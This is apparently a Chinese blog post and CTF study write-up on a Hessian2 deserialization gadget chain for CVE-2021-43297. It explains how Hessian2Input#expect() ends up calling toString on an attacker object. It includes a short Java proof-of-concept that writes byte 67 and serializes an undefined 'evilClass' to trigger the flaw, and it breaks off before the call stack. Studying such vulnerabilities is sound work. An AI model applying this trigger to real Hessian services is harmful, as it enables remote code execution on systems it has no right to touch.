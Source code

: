 ```yaml
---
layout: post
title: hessian2链子
categories: [blog ]
tags: [Java,]
description: "hessian2链子及赛题复现"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.compu
---
```


```java
<dependency>
<groupId>com.caucho</groupId>
<artifactId>hessian</artifactId>
<version>4.0.38</version>
</dependency>
hessian的依赖
```

项目在：K:\javafile\hessian2tiaoshi

## 第一条链子 CVE-2021-43297

漏洞在`com.caucho.hessian.io.Hessian2Input#expect()`这里

![image-20231122194611938](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231122194611938.png)

并且有readObject()操作，接着一个String拼接，会调用`toString`

并且发现在`com.caucho.hessian.io.Hessian2Input#readString()`中就有`expect()`的调用

![image-20231122194936333](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231122194936333.png)

只需要取上面没有条件的case就行了

这里取case 67的时候调用 readObjectDefinition 方法进入readString
直接baos写进去就可以了：

```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
Hessian2Output output = new Hessian2Output(baos);
baos.write(67);
output.writeObject(evilClass);
output.flushBuffer();

ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
Hessian2Input input = new Hessian2Input(bais);
input.readObject();
```

调用栈如下：
